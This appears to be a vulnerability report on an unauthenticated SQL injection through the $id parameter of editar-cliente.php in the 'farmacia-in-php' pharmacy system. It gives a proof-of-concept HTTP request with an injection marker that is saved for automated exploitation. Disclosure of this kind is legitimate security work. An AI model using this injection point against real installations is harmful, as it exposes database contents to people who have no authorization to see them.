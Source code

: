 # farmacia-in-php has sql injection vulnerability in editar-cliente.php

## supplier
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
editar-cliente.php
## describe
There is an unauthorized SQL injection vulnerability in  editar-cliente.php of farmacia-in-php-system.

Control parameter: **$id**

 The information of the database can be obtained without authorization, and arbitrary commands may be executed. 



## code analysis

The **$id** parameters of th editar-cliente.php are not filtered and concatenated into the SQL statement for execution. This is  sql injection vulnerability.

![image-20241113113847575](https://github.com/user-attachments/assets/e5d773e4-b59e-4e6f-ae60-d5a10c24d4a3)

Inject parameter：$id

## POC

```
GET /editar-cliente.php?id=1* HTTP/1.1
Host: farmacia
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

save as 1.txt

![image-20241113114109303](https://github.com/user-attachments/assets/8b66c333-5b87-4708-a565-d62618351997)